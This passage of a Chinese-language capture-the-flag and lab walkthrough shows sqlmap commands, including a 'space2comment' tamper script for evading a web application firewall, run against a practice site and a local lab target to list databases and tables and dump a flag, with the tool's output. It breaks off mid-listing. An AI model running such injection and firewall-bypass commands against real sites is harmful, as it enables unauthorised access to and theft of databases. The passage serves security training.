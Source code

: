 	##	flag表下有两个列，当然是选择flag列继续~
### 6.查询字段
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://ctf5.shiyanbar.com/web/index_3.php?id=1" --dump -C "flag" -T "flag"
	结果：
	Database: web1
	Table: flag
	[1 entry]
	+----------------------------+
	| flag                       |
	+----------------------------+
	| flag{Y0u_@r3_5O_dAmn_90Od} |
	+----------------------------+
	
	##getflag!


## 0x02 靶机·拿flag（keyword: sqlmap，tamper，waf）

前提：已知此页面存在注入漏洞。
#
	#查数据库
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://192.168.2.191:8000/Art_Show.php?id=3" --tamper "space2comment.py" --dbs
	
	how do you want to proceed? [(C)ontinue/(s)tring/(r)egex/(q)uit] C
	
	it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] n

    for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y

	GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
	available databases [4]:
	[*] information_schema
	[*] mysql
	[*] onecms
	[*] performance_schema
#
	#查表
	E:\00我的工具\Sqlmap\SQLmap>sqlmap.py -u "http://192.168.2.191:8000/Art_Show.php?id=3" --tamper "space2comment.py" -D "onecms" --table
	Database: onecms
	[15 tables]
	+-----------------+
	| flag            |
	| onecms_about    |
	| onecms_access   |
	| onecms_admin    |
	| onecms_article  |
	| onecms_book     |
	| onecms_botlist  |
	| onecms_count    |
	| onecms_down     |
	| onecms_hits     |